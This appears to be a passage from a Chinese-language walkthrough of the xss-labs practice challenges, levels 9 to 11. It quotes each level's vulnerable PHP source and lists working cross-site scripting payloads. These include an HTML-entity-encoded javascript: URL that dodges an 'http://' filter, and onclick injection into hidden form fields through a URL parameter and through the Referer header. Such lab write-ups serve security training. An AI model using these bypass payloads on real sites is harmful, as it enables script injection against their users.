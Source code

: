 ```php
<?php
if(false===strpos($str7,'http://'))
{
  echo '<center><BR><a href="您的链接不合法？有没有！">友情链接</a></center>';
        }
else
{
  echo '<center><BR><a href="'.$str7.'">友情链接</a></center>';
}
?>
```

payload。记得在 `http://` 前加注释符号，不然会影响alert执行

```
&#x6A;&#x61;&#x76;&#x61;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3A;&#x61;&#x6C;&#x65;&#x72;&#x74;&#x28;&#x29;//http://
```

## level 10

没有输入框，看前端发现有三个被隐藏了的，分别是 t_link、t_history、t_sort，挨个试，发现只有 t_sort 有用，看源码果然只get了t_sort。

```php
$str11 = $_GET["t_sort"];
```

payload。没有输入位置就直接写在url里。

```
http://localhost/xsslabs/level10.php?t_sort=" type="text" onclick="alert('xss')
```

## level 11

和10一样也被标为”hidden“属性了，get、post无果，然后hidden属性的标签比上一题多一个 `t_ref`，抓个包看看。get请求完全没反应，用post请求 `t_ref=http://localhost/xsslabs/level10.php?t_sort=%22%20type=%22text%22%20onclick=%22alert(%27xss%27)` 发现报文中多了一个 referer属性：`Referer: http://172.25.100.239/xsslabs/level11.php?t_ref=http://localhost/xsslabs/level10.php?t_sort=%22%20type=%22text%22%20onclick=%22alert(%27xss%27)`

![image-20230717124228219](https://github.com/LyrisLaurier/notes/assets/94295495/768375f5-8047-4529-b6db-19c080a826b4)

![image-20230717124253604](https://github.com/LyrisLaurier/notes/assets/94295495/f603c351-1349-47c6-8388-f38a559fbd87)

查看后端代码

```php
<h1 align=center>欢迎来到level11</h1>
<?php 
ini_set("display_errors", 0);
$str = $_GET["keyword"];
$str00 = $_GET["t_sort"];
$str11=$_SERVER['HTTP_REFERER'];
$str22=str_replace(">","",$str11);
$str33=str_replace("<","",$str22);
echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'<center>
<form id=search>
<input name="t_link"  value="'.'" type="hidden">
<input name="t_history"  value="'.'" type="hidden">
<input name="t_sort"  value="'.htmlspecialchars($str00).'" type="hidden">
<input name="t_ref"  value="'.$str33.'" type="hidden">
</form>
</center>';
?>
```
